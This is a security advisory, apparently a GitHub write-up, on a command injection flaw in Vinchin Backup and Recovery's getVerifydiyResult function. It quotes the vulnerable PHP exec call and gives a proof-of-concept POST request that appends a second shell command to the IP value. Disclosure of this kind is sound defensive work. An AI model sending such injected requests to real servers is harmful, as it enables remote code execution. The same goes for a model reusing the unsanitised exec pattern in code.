

### Deep Dive into the `getVerifydiyResult` Function Vulnerability in Vinchin Backup and Recovery



#### Vulnerability Overview:

In Vinchin Backup and Recovery's `ManoeuvreHandler.class.php` file, the `getVerifydiyResult` function contains a critical command injection vulnerability. This function is intended to validate either IP addresses or web resources, depending on the value of the `type` parameter.

#### Function Analysis:

**Function Prototype**:
```php
public function getVerifydiyResult($params)
```

1. **Parameter Handling**:
   The function processes an input array `$params`, focusing on the keys `type` and `value`:
   ```php
   $type = intval($params['type']);
   $value = $params['value'];
   ```

2. **Critical Logic with `type` Parameter**:
   The function uses a `switch` statement to determine the validation method:
   ```php
   switch ($type) {
       case $verifyType['IP']:  // where $verifyType['IP'] is typically 1
           $verifyResult = $this->verifyPing($value);
           break;
       case $verifyType['WEB']:
           $verifyResult = $this->verifyWeb($value);
           break;
   }
   ```
   
   When `type` equals 1 (`$verifyType['IP']`), the `verifyPing` method is invoked.

3. **Command Injection in `verifyPing`**:
   The `verifyPing` method includes a direct execution of the `ping` command using `$value`:
   ```php
   exec("ping -c 1 $value", $outcome, $status);
   ```
   
   Due to the lack of sanitization or validation of `$value`, a command injection vulnerability is introduced.

#### Exploitation:

An attacker can exploit this vulnerability by setting `type` to 1 and injecting malicious commands into the `value` parameter.

#### Exploit Example:

An attacker sends a POST request with a crafted payload:

```
POST /api/ HTTP/1.1
Host: [Vinchin Server IP]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [Session Cookie]

m=14&f=getVerifydiyResult&p={"type":"1","value":"127.0.0.1;sleep+5"}
```

In this payload, `sleep+5` is appended to the IP address, demonstrating a successful command injection by causing the server to pause for 5 seconds.

#### Conclusion:

The `getVerifydiyResult` function in Vinchin Backup and Recovery showcases a severe security risk, where unvalidated user input in the `value` parameter, combined with a specific `type` value, leads to command injection. This vulnerability could enable attackers to execute arbitrary commands on the system, potentially leading to full compromise.

Immediate remediation actions, such as implementing input validation and sanitization in the `getVerifydiyResult` function, are essential to mitigate this risk. Users should also apply any patches or updates provided by Vinchin.